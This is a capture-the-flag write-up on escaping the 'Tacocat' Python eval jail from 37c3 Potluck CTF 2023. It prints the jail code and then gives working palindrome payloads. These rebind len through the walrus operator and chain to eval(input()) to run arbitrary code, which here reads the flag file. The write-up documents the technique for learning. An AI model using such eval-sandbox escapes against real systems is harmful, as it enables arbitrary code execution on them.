 ```yaml
---
title: Tacocat
type: writeup
date: 2024-01-05T22:50:30+01:00
description: Writeup for Tacocat [37c3 Potluckctf 2023]
author: zenbassi
tags:
- misc
- python escape
draft: false
---
```

___

## Challenge Description

This is an upsolve, so I don't really remember, but it went something like _We
had no good ideas but we figured a python escape is always welcome_.

## Intuition

The code for the jail is given to us and albeit, very short:

```python
while True:
    x = input("palindrome? ")
    assert "#" not in x, "comments are bad"
    assert all(ord(i) < 128 for i in x), "ascii only kthx"
    assert x == x[::-1], "not a palindrome"
    assert len(x) < 36, "palindromes can't be more than 35 characters long, this is a well known fact."
    assert sum(x.encode()) % 256 == 69, "not nice!"
    eval(x)
```

So, we're free to give a string to `eval`, which will _evaluate_ any valid python expression.
This can give us the flag, or a shell, but the catch is that:
* the input must be a palindrome
* we cannot use comments
* sum of ASCII values for each character in the input has to be equal to 69 (modulo 256)

I had multiple ideas, including using string formatting to insert comments,
using tuples which are evaluated element by element and to use triple quotes
strings as a form of comment. Sadly I had no success with any of them, but I'm
happy to see that some of my ideas were in a solution by `pspaul` @
[FluxFingers](https://fluxfingers.net/), which I we will discuss below.

## Solution

The solution consists of multiple inputs formatted as such:

```
      +------------------------------------------------------+
      |                                                      |
      |              +-----------------------+               |
      |              |                       |               |
      v              v                       v               v
'''{buffer}',{reverse(expression)},''',{expression},'{reverse(buffer)}'''
|                                    | |       ^  | |                 | ^
|          this is a string          | |       |  | | this is a char  | |
+------------------------------------+ +-------+--+ +-------------^---+ |
                                               |                  |     |
     this is the evaluated expression ---------+                  |     |
                                                                  |     |
                   this is used to reach the desired sum ---------+     |
                                                                        |
                                                                        |
                                                                        |
                                                         empty string --+

eg. which would print 42 when evaluated:

eval("'''?',))24(tnirp(,''',(print(42)),'?'''")

This is a bit too long to be valid, but you get the point :P
```

Looking at it, this is a very neat way of abusing the greedy way in which
strings are evaluated in python - from left to right.

Now, the length restriction is problematic. We can bypass it if we assign
to `len` another function that processes a string or a list and returns a
values smaller than 36. Such functions are `all` or `any`. To achieve the
substitution we can utilise the `walrus operator` introduced in python 3.8 [^1].
The following two lines bypass the length check:

```python
'''k',)yna=:y(,''',(y:=any),'k'''
'''t',)y=:nel(,''',(len:=y),'t'''
```

Lastly we can just read the flag with:

```python
'''{}',))(tupni(lave,''',eval(input()),'{}'''
```

and then supplying something such as:

```python
print(open("flag.txt").read())
```

### Flag

`POTLUCK{1_@c7u@11y_do_n07_kn0w_th3_f1@g}`

## References

[^1]: https://docs.python.org/3/whatsnew/3.8.html
